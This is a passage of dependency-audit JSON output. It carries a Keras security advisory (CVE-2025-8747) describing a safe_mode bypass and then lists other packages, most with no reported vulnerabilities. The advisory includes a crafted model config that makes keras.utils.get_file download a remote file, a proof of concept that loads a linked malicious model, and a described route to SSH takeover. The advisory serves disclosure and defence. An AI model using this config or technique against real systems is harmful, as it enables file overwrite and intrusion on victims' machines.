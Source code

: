 [{'id': 'GHSA-c9rc-mg46-23w3', 'fix_versions': ['3.11.0'], 'aliases': ['CVE-2025-8747'], 'description': '### Summary It is possible to bypass the mitigation introduced in response to [CVE-2025-1550](https://github.com/keras-team/keras/security/advisories/GHSA-48g7-3x6r-xfhp), when an untrusted Keras v3 model is loaded, even when “safe_mode” is enabled, by crafting malicious arguments to built-in Keras modules.  The vulnerability is exploitable on the default configuration and does not depend on user input (just requires an untrusted model to be loaded).  ### Impact  | Type   | Vector   |Impact| | -------- | ------- | ------- | |Unsafe deserialization |Client-Side (when loading untrusted model)|Arbitrary file overwrite. Can lead to Arbitrary code execution in many cases.|   ### Details  Keras’ [safe_mode](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model) flag is designed to disallow unsafe lambda deserialization - specifically by rejecting any arbitrary embedded Python code, marked by the “__lambda__” class name. https://github.com/keras-team/keras/blob/v3.8.0/keras/src/saving/serialization_lib.py#L641 -  ``` if config["class_name"] == "__lambda__":         if safe_mode:             raise ValueError(                 "Requested the deserialization of a `lambda` object. "                 "This carries a potential risk of arbitrary code execution "                 "and thus it is disallowed by default. If you trust the "                 "source of the saved model, you can pass `safe_mode=False` to "                 "the loading function in order to allow `lambda` loading, "                 "or call `keras.config.enable_unsafe_deserialization()`."             ) ```  A fix to the vulnerability, allowing deserialization of the object only from internal Keras modules, was introduced in the commit [bb340d6780fdd6e115f2f4f78d8dbe374971c930](https://github.com/keras-team/keras/commit/bb340d6780fdd6e115f2f4f78d8dbe374971c930).   ``` package = module.split(".", maxsplit=1)[0] if package in {"keras", "keras_hub", "keras_cv", "keras_nlp"}: ```  However, it is still possible to exploit model loading, for example by reusing the internal Keras function `keras.utils.get_file`, and download remote files to an attacker-controlled location. This allows for arbitrary file overwrite which in many cases could also lead to remote code execution. For example, an attacker would be able to download a malicious `authorized_keys` file into the user’s SSH folder, giving the attacker full SSH access to the victim’s machine. Since the model does not contain arbitrary Python code, this scenario will not be blocked by “safe_mode”. It will bypass the latest fix since it uses a function from one of the approved modules (`keras`).  #### Example  The following truncated `config.json` will cause a remote file download from https://raw.githubusercontent.com/andr3colonel/when_you_watch_computer/refs/heads/master/index.js to the local `/tmp` folder, by sending arbitrary arguments to Keras’ builtin function `keras.utils.get_file()` -  ```            {                 "class_name": "Lambda",                 "config": {                     "arguments": {                         "origin": "https://raw.githubusercontent.com/andr3colonel/when_you_watch_computer/refs/heads/master/index.js",                         "cache_dir":"/tmp",                         "cache_subdir":"",                         "force_download": true},                     "function": {                         "class_name": "function",                         "config": "get_file",                         "module": "keras.utils"                     }                 },  ```   ### PoC  1. Download [malicious_model_download.keras](https://drive.google.com/file/d/1gS2I6VTTRUwUq8gBoMmvTGaN0SX1Vr8F/view?usp=drive_link) to a local directory  2. Load the model -  ``` from keras.models import load_model model = load_model("malicious_model_download.keras", safe_mode=True) ```  3. Observe that a new file `index.js` was created in the `/tmp` directory   ### Fix suggestions 1. Add an additional flag `block_all_lambda` that allows users to completely disallow loading models with a Lambda layer. 1. Audit the `keras`, `keras_hub`, `keras_cv`, `keras_nlp` modules and remove/block all “gadget functions” which could be used by malicious ML models. 1. Add an additional flag `lambda_whitelist_functions` that allows users to specify a list of functions that are allowed to be invoked by a Lambda layer  ### Credit  The vulnerability was discovered by Andrey Polkovnichenko of the JFrog Vulnerability Research'}]}, {'name': 'keyring', 'version': '24.3.1', 'vulns': []}, {'name': 'kiwisolver', 'version': '1.4.4', 'vulns': []}, {'name': 'kombu', 'version': '5.5.4', 'vulns': []}, {'name': 'langcodes', 'version': '3.5.0', 'vulns': []}, {'name': 'langdetect', 'version': '1.0.9', 'vulns': []}, {'name': 'language-data', 'version': '1.3.0', 'vulns': []}, {'name': 'lazy-loader', 'version': '0.4', 'vulns': []}, {'name': 'lazy-object-proxy', 'version': '1.10.0', 'vulns': []}, {'name': 'lckr-jupyterlab-variableinspector', 'version': '3.1.0', 'vulns': []}, {'name': 'libarchive-c', 'version': '5.1', 'vulns': []}, {'name': 'libclang', 'version': '18.1.1', 'vulns': []}, {'name': 'libmambapy', 'skip_reason': 'Dependency not found on PyPI and could not be audited: libmambapy (1.5.8)'}, {'name': 'license-expression', 'version': '30.4.4', 'vulns': []}, {'name': 'limits', 'version': '5.4.0', 'vulns': []}, {'name': 'linkify-it-py', 'version': '2.0.0', 'vulns': []}, {'name': 'llvmlite', 'version': '0.43.0', 'vulns': []}, {'name': 'lmdb', 'version': '1.4.1', 'vulns': []}, {'name': 'locket', 'version': '1.0.0', 'vulns': []}, {'name': 'loguru', 'version': '0.7.2', 'vulns': []}, {'name': 'lxml', 'version': '5.2.1', 'vulns': []}, {'name': 'lxml-html-clean', 'version': '0.4.2', 'vulns': []}, {'name': 'lz4', 'version': '4.3.2', 'vulns':